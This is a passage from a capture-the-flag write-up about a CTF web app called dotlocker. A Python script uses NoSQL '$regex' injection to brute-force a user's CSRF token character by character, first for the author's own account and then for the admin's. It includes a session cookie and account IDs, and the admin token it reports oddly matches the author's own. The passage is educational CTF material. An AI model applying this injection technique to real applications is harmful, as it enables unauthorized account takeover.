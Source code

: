 ![image](https://user-images.githubusercontent.com/1072598/97645431-5ceac780-1a23-11eb-9fe9-5a0ec667435d.png)

Another 400! Now we know this is exploitable, so let's get to 'sploitin!

At this point I whipped together a script to iterate through and brute-force out a csrf token for a given user id, which can be done like this:

```python
import requests
import string

characters = string.ascii_lowercase[:6] + string.digits

LEN = 64

payload = ""

headers = {
	"Cookie": "session=eyJfaWQiOnsiIGIiOiJOV1k1WWpSaVpUSTJORE0xT1dReU0yUTBZMkk0TWprMSJ9fQ.X5tL4g.kYWc_tNEzxHKo7QVHnNsV2GJxBw"
}

for x in range(LEN):
	for char in characters:
		# print("Requesting")
		response = requests.post('http://dotlocker.hackthe.vote/save', json={
			"_csrf_token": {"$regex": "^{}".format(payload + char)},
			"_id": "5f9b4be264359d23d4cb8295"
		}, headers=headers)
		if response.status_code == 400:
			print("found - {}".format(payload + char))
			payload += char
			break

```

Note that `5f9b4be264359d23d4cb8295` is OUR ID, so we're just trying to ensure we can recover our own CSRF token before unleashing this on the admin :). 

![image](https://user-images.githubusercontent.com/1072598/97645751-2a8d9a00-1a24-11eb-9a69-28bd57583083.png)

Before you know it, our script has successfully extracted our CSRF token (`c81b0c250ea043282fd0edb8eb14ca0f4bfcd936366d0165265ed649b147d0e6`), so let's do the same thing but change the ID to `5f8f7cc164359d236ef1fc81` to capture the admin's CSRF token. 

Note! We have to change the response status code check to check for a 401, we get that returned if we're trying to fiddle with users that aren't us! 

![image](https://user-images.githubusercontent.com/1072598/97645580-b521c980-1a23-11eb-9d23-6185f4f43134.png)

Finally we're able to see that the admin's (ID: `5f8f7cc164359d236ef1fc81`) CSRF token is `c81b0c250ea043282fd0edb8eb14ca0f4bfcd936366d0165265ed649b147d0e6`. Perfect!

### Launching the exploit
